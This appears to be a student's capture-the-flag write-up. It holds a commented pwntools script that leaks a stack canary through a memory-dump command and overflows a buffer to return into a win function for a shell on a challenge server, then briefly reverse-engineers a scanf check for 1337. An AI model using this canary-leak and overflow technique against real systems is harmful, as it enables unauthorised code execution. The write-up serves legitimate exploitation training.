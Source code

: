 Script/Command used
------------------
```
p = remote("plsdonthaq.me", 2004)

# We want to extract the 'useful stack pointer', which is the address of the buffer
p.recvuntil("pointer ")
useful = int(p.recvline()[:-1], 0)

# Since we know the canary is stored 105 bytes above the buffer, we add this offset to the buffers address
canaryAddress = useful + 105

# We then select command 'input data' and send the address of the canary as input
p.sendline("a")
p.sendline(p32(canaryAddress))

# We use command 'dump memory' to display the contents of this address, here being the stack canary value.
p.sendline("b")

# Here we extract the canary value given by the program
p.recvuntil("memory at ")
p.recvuntil(": ")
canaryValue = u32(p.recv(4))

# Since we found the address of the win function in binary ninja, we store it in a variable to be used in the buffer overflow
win = int("0x80486c6", 0)

# We use command 'input data' to send through our buffer overflow, which is 96 bytes of anything, the canary, 8 bytes of anything, and the address of the win function
p.sendline("a")
p.sendline(b"A"*96 + p32(canaryValue) + b"A"*8 + p32(win))

# We then use command 'quit' to return to the win function which gives us shell access
p.sendline("d")
p.interactive()
```

re challenge (chall1)
=============
General overview of problems faced
-------------------------------------
To reverse engineer this function into C code, I simply worked may way through the assembly instructions. The first area of note is the call to scanf. We can see that
the address of a variable is passed into it, alongside the value "%d". Hence, I simply created a variable 'a' to represent this.

Next, the value of this variable 'a' is compared with the value 0x539, which is equivalent to the int 1337. If this comparison gives a result that isn't equal to zero, meaning 'a' doesn't equal 1337, then puts is called with the input "Bye". Alternatively, if 'a' does equal 1337, it calls puts with the input "Your so leet!".
